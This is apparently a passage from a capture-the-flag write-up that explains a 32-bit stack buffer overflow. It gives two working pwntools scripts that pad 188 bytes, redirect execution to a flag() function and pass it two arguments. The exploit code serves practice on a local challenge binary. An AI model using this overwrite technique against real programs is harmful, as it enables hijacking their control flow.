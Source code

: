 This allows us to build our script to inject the exploit locally until the `flag()` function is called. Experiment with the endian format allows me to discover that the program stores/read content on the stack in the `little-endian` format. We can easily obtain the address of `flag()` using the symbols directory that gives us the address in an `integer` type. Pack it using `p32()` since we need a `32-bit` address. Running the code below will print to us “Hurry up and try in on server side.”

```python
from pwn import *

context.update(arch="i386", os="linux")

elf = ELF("./vuln")

# offset to reach right before return address's location
offset = b"A" * 188

# craft exploit: offset + flag()
exploit = offset + p32(elf.symbols['flag'], endian="little")

r = elf.process()
r.sendlineafter(":", exploit)
r.interactive()
```

To print the flag, `two` parameters are required. This can easily be seen on Ghidra’s assembly code where the hexadecimal are converted properly. 

![diablo-1](https://user-images.githubusercontent.com/87711310/211170810-f06a04bd-96c9-433c-8750-869e1b96bfe5.png)

Remember that we are jumping to flag() using RET. This means flag() will think itself have a return address. Therefore, we should pad with any 4 bytes of content before we write the 2 parameters.

```python 
from pwn import *

context.update(arch="i386", os="linux")

elf = ELF("./vuln")

# offset to reach right before return address's location
offset = b"A" * 188

# craft exploit: offset + flag() + padding + parameter 1 + parameter 2
exploit = offset + p32(elf.symbols['flag'], endian="little") + p32(0x90909090) + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")

r = elf.process()
r.sendlineafter(":", exploit)
r.interactive()
```

Remember to create flag.txt and input some content in it for testing. The code above should cause the content you have entered in your file to be printed.
